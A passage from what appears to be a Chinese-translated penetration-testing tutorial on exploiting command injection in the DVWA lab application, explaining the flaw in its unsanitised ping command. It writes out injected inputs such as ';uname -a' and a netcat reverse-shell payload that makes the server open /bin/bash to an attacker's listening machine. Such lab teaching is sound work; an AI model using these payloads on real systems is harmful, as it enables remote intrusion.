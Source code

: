 1.  如果没有IP地址，试试`;uname -a`。结果如下图所示：

![](assets/544d8ffd-b9dc-4eb7-b22a-37ec3c699546.png)

1.  现在，我们将获得服务器上的反向Shell。首先，我们必须确保服务器上有我们需要的所有工具。提交`;ls /bin/nc*`。它应该返回一个带有完整路径的文件列表：

![](assets/3f7e3524-5ef0-4164-a304-b7c640a480b7.png)

所以，我们有多个版本的 NetCat，这是我们将用来生成连接的工具。OpenBSD 版本的 NetCat 不支持在连接时执行命令，因此我们将使用传统版本。

1.  下一步是在我们的 Kali 机器上监听一个连接；打开一个终端并运行以下命令：

[PRE15]

1.  然后，在浏览器中提交以下内容：`;nc.traditional -e /bin/bash 192.168.56.10 1691 &`。

1.  我们将看到在监听的 Kali 终端中如何接收连接。在那里，我们可以像以下示例一样在服务器上执行命令：

![](assets/1f02672a-70ee-46c3-a990-1db4e14bd906.png)

我们的终端会对连接做出响应。现在，我们可以发出非交互式命令并检查其输出。

# 它是如何工作的...

与 SQLi 等其他情况一样，命令注入漏洞是由于输入验证机制不当，并且使用用户提供的数据来构建字符串，这些字符串稍后会作为命令传递给操作系统。如果我们查看刚才攻击的页面的源代码（每个 DVWA 页面右下角都有一个按钮），它将看起来像这样：

[PRE16]

我们可以直接看到它将用户的输入附加到 `ping` 命令中。我们所做的只是添加了一个分号，系统的 shell 将其解释为命令分隔符，接下来是我们想要执行的命令。

在成功执行命令后，下一步是验证服务器是否安装了 NetCat，这是一个能够建立网络连接并且在建立新连接时执行命令的工具。我们发现服务器的系统有两个不同版本的 NetCat，并执行了我们知道支持所需功能的那个版本。

然后，我们将攻击系统设置为监听 `1691` 端口的连接（它可以是任何其他可用的 TCP 端口），之后，我们指示服务器通过该端口连接到我们的机器，并在连接建立时执行 `/bin/bash`（一个系统 shell）。通过该连接发送的任何内容都将作为输入被服务器中的 shell 接收。命令末尾的 `&` 用于在后台执行该命令，并防止 PHP 脚本执行因等待命令响应而中断。
